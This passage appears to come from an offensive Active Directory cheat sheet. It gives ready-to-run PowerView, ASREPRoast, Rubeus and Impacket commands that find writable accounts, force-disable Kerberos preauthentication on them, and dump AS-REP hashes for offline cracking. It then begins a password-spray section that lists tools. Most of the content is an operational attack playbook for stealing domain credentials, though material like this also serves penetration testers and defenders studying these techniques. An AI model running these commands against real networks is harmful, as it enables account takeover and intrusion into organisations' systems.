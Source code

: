 Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more! Check for interesting permissions on accounts:

**Hint:** We add a filter e.g. RDPUsers to get “User Accounts” not Machine Accounts, because Machine Account hashes are not crackable!

PowerView:

```
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```

And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.

```
#Get a spesific Accounts hash:
Get-ASREPHash -UserName <UserName> -Verbose

#Get any ASREPRoastable Users hashes:
Invoke-ASREPRoast -Verbose
```

Using Rubeus:

```
#Trying the attack for all domain users
Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>

#ASREPRoast spesific user
Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>

#ASREPRoast users of a spesific OU (Organization Unit)
Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

Using Impacket:

```
#Trying the attack for the specified users on the file
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
```

#### **Password Spray Attack**

If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse on other domain accounts.

**Tools:**

* [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
* [Spray](https://github.com/Greenwolf/Spray)
